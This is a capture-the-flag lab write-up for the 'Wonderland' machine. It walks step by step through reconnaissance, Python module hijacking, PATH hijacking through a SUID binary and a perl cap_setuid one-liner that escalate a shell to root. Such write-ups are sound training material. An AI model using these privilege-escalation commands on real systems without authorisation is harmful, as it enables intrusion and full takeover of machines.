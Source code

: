 # Wonderland

1. `nmap` reveals SSH and HTTP services on standard ports.

2. `gobuster` on the web page reveals the following directories:

```
/img (Status: 301)
/poem (Status: 301)
/r (Status: 301)
```

Further investigation & guesses lead to the page `http://10.10.145.117/r/a/b/b/i/t/` whose source contains some hidden credentials `alice:**REDACTED**`.

3. These credentials allow to log in as `alice` through SSH.

```
alice@wonderland:~$ ls -l
total 8
-rw------- 1 root root   66 May 25  2020 root.txt
-rw-r--r-- 1 root root 3577 May 25  2020 walrus_and_the_carpenter.py
alice@wonderland:~$ sudo -l
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

We have the right to run `walrus_and_the_carpenter.py` as `rabbit`. This script imports the `random` module and picks 10 random lines in a hardcoded poem.

2. Let us hijack the `random` module by creating a `random.py` file in the directory to spawn a shell as `rabbit`.

```
alice@wonderland:~$ echo "import os; os.system('/bin/bash')" > random.py
alice@wonderland:~$ sudo -u rabbit python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ id
uid=1002(rabbit) gid=1002(rabbit) groups=1002(rabbit)
```

3. In its home directory, `rabbit` has a SUID executable (that does not seem to do anything interesting when we launch it).

```
rabbit@wonderland:/home/rabbit$ ls -l
total 20
-rwsr-sr-x 1 root root 16816 May 25  2020 teaParty
```

Because `strings` is not available on the target, we copy `teaParty` to `/tmp` for instance and bring it back to the local machine with `scp` using `alice`.

4. Using strings, we notice one interesting line in particular:

```
$ strings teaParty
...
/bin/echo -n 'Probably by ' && date --date='next hour' -R
...
```

`teaParty` seems to be invoking a shell line within which the `date` command is called with a relative path.

5. Back on the target machine, let us hijack the `date` command.

```
rabbit@wonderland:/home/rabbit$ echo /bin/bash > date
rabbit@wonderland:/home/rabbit$ chmod +x date
rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ id
uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)
```
We get a shell as `hatter`.

6. Its home directory conveniently contains a `password.txt` file containing an anticipated piece of information allowing us to properly log in as `hatter` through SSH. It is not a sudoer. We look for interesting executables related to this user.

```
hatter@wonderland:~$ find / -group hatter -type f -executable 2>/dev/null
/usr/bin/perl5.26.1
/usr/bin/perl
...
hatter@wonderland:~$ ls -l /usr/bin/perl*
-rwxr-xr-- 2 root hatter 2097720 Nov 19  2018 /usr/bin/perl
-rwxr-xr-x 1 root root     10216 Nov 19  2018 /usr/bin/perl5.26-x86_64-linux-gnu
-rwxr-xr-- 2 root hatter 2097720 Nov 19  2018 /usr/bin/perl5.26.1
...
hatter@wonderland:~$ getcap /usr/bin/perl*
/usr/bin/perl = cap_setuid+ep
/usr/bin/perl5.26.1 = cap_setuid+ep
```
We can run `/usr/bin/perl` (or equivalently `/usr/bin/perl5.26.1`), which has an [interesting capability](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#capabilities).

7. Time to [exploit this capability with perl](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/) and finally become `root` and collect the **root flag** (in `/home/alice` as seen in step 3) as well as the **user flag** (in `/root`).

```
hatter@wonderland:~$ perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
root@wonderland:~# cat /home/alice/root.txt 
**REDACTED**
root@wonderland:~# cat /root/user.txt 
**REDACTED**
```
